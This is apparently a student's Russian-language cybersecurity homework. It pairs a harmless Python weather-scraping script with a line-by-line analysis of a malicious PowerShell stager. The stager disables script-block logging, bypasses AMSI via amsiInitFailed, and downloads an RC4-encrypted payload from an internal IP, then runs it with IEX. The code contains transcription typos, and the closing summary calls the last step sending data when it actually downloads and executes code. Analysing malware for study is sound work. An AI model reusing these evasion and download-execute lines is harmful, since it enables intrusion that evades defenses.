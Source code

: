# Домашнее задание №27: Scripting, web, python

1) Написать python-script для автоматизации часто выполняемых действий, либо парсинга сайта для получения нужной информации  

2) Расписать действия PowerShell скрипта  
![ScriptTask](https://github.com/StsiapanSikorsky/Cybersecurity_TMScourse/blob/main/Task_27/img/ScriptTask.png)  

Ссылки на дополнительные ресурсы:  
- [Создание symbo table для кастомных ядер](https://blog.tofile.dev/2022/08/22/cloud-forensics.html)  
- [HTML5 templates](https://html5up.net/)  

## 1) Python-script для парсинга сайта погоды  

Перед началом, на сайте погоды, необходимо найти часть, которая хранит значения погоды в Минске. Через консоль разработчиа (F12) поэтапно разворачивая тэги находим нужный   
![Py_1]()  

После чего приступаем к написанию скрипта  

```python
#!/usr/bin/env python3

#импорт библиотек
from bs4 import BeautifulSoup
import requests

#адрес сайта который парсим
url = 'https://yandex.by/pogoda/minsk?lat=53.902735&lon=27.555691'

#проверка связи с сервером
response = requests.get(url)
print(response)

#получение страницы в формате lxml
bs = BeautifulSoup(response.text, "lxml")
#print(bs)

#поиск значения по тэгу и его классу
temp = bs.find('span', 'temp__value temp__value_with-unit')
print(temp.text)
```

## 2) Действия скрипта PowerShell  
``` powershell
IF ($PSVersionTABLE.PSversion.Major=ge3)  
```

- 2.1 Строка провверяет установлен ли в системее PowerShell через встроенную переменную PSVersionTable. PSVersion - свойство, которое представляет номер версии в виде объекта. =ge - оператор сравнения. В случае true, выполняются действия до описания 2.5 включительо.  

``` powershell
>$GPF=[REF].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySetings','N'+'onPublic,Static');  
```

- 2.2 Если условие было выполнено выполнение строки выше предоставляет доступ к закрытому статическому полю **cachedGroupPolicySetings** класса **System.Management.Automation.Utils**. [REF] - тип в PowerShell позволяющий работать на объекты и ссылки, которые не доступны напрямую.  

``` powershell
>if($GPF){
    $GPC=$GPF.GetValue($NULL);
    if($GPC['ScriptB'+'lockLogging'])
    {
        $GPC['ScriptB'+'lockLogging']['EnableScriptB'+'lockLogging']=0;
        $GPC['ScriptB'+'lockLogging']['EnableScriptBlockinvocationLogging']=0;
    }
    $vAl=[Collections.Generic.Dictionary[string,system.object]]::new();
    $Val.Add('EnableScriptB'+'lockLogging',0);
    $VAL.Add('EnableScriptBlockinvocationLogging',0);
    $GPC[*HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\'ScriptB'+'lockLogging']=$VAI
}
```

- 2.3 Фрагмент пытается изменить настройки, связанные с логгированием блока скриптов. Вложенное условие проверяет есть ли настройка ScriptBlockLogging в $GPC и если она существует отключает логгирование (установка EnableScriptBlockInvocationLogging в 0). Последняя строка используется для установки ключа реестра. 

``` powershell
else
{
    [ScriptBlock]."GetFeld"('signatures','NonPublic','Static').SetValue($Null,(New-ObjectCollections.Generic.HashSet[string]))
}
``` 

- 2.4 Блок используетя, если условие if($GPF) вернуло false. В нем код использует рефлексию для доступа к закрытому статическому полю signature в классе ScriptBlock. Метод SetValue вызывается для установленного поля, чтобы задать его значение как новый пустой HashSet<string>. Это эффективно очищает любые существующие подписи, которые PowerShell использует для идентификации подозрительной активности, что может быть полезно для уклонения от обнаружения механизмами безопасности.  

``` powershell
[REF].Assembly.GetType('System.Management.Automation.AmsiUtils') |?{$_}| 
%{
    $_.GetField('amsilnitFailed','NonPublic,Static').SetValue($NULL, $True)
}
``` 

- Команда предназначена для манипуляции статическим полем amsiInitFailed класса AmsiUtils, что позволяет обойти проверки Antimalware Scripting Interface (AMSI). Команда начинается с доступа к классу AmsiUtils в пространстве имен System.Management.Automation с использованием рефлексии. Этот класс отвечает за взаимодействие с AMSI. Часть | ?{$_} фильтрует результаты, но поскольку сразу за ней следует %{}, это фактически не имеет значительного эффекта. Оператор %{} используется для итерации по каждому элементу в конвейере. Внутри цикла метод GetField('amsiInitFailed', 'NonPublic', 'Static') извлекает закрытое статическое поле с именем amsiInitFailed. Это поле указывает, произошла ли ошибка инициализации AMSI. Метод SetValue($NULL, $True) устанавливает это поле в значение $True, что сигнализирует о том, что инициализация AMSI завершилась неудачно. Когда этот флаг установлен в true, последующие вызовы AMSI для сканирования содержимого будут игнорироваться, что фактически отключает защитные меры AMSI.

``` powershell
[System.Net.ServicePolntManager]::Expect100Continue=0;  
$WC=New-ObjectSystem.Net.Webclient;  
$u='Mozila/5.0(WindowsNT6.1; WOW64; Trident/7.0; rv:11.0) likeGecko';  
$WC.Headers.Add('User-Agent', $u);  
``` 

- В начале блока отключается заголовок "Expect:100-continue". Вторая строка создает новый объект WebClient, использующийдля отправки HTTP-запросов и получения ответов от веб-сервера. $u задает строку User-Agent, которая будет отправлена вместе с запросами. Последняя строка добавляет заголовок User-Agent к запросам, отправляемым через объект WebClient.  

``` powershell  
$WC.Proxy=[System.Net.WebRequest]::DefaltWebProxy;  
$WC.Proxy.Credentials=[System.Net.CredentialCache]::DefaultNetworkCredentials;  
$Script:Proxy=$WC.Proxy;  
$K=[System.Text.Encoding]::ASCII.Getbytes('99754106633f94350db34d548d6091a');  
```   

- В приведенном выше блоке устанавливается и настраиваются параметры прокси для объекта WebClient. DefaultNetworkCredentials автоматически получает учетные данные текущего пользователя для аутентификации на прокси сервере. Последняя строка кодирует строку с использованием кадировки ASCII, предположительно используется для передачи данных по сети.  

``` powershell  
$R=($D, $K=$args; $S=0...255)|%
{
    $J=($J+$S[$_]+$K[$_%$L.count])%256;
    $S[$_], $S[$J], $S[$_]
};
$D|%
{
    $I=($I+1)%256;
    $H=($H+$S[$I])%256;
    $S[$I], $S[$H]=$S[$H], $S[$I];
    $_-bXOR $S[($S[$I]+$S[$H])%256]
};  
$ser="http://10.6.100.123:80";
$t='/news.php';
$WC.Headers.Add("Cookie","session=8xD4koAuu7Hah4KQzwZ/kDq4Oc=");  
$Data=$WC.DownloadData($SER+$T);
$IV=$Data[0..3];
$Data=$Data[4..$Data.lenghth];
-join[Char[]](&$R$Data($IV+$K))|IEX    
```   

- Код выполняет функцию шифрования RC4, после чего отправляют данные на указанный URL 


<[!CAUTION] Таким образом представленный на сриншоте код вредоноса, обходит защиту устройства, устанавливает прокси соединение с сервером управлния, шифрует данные при помощи алгоритма RC4 и отправляет их на сервер управления.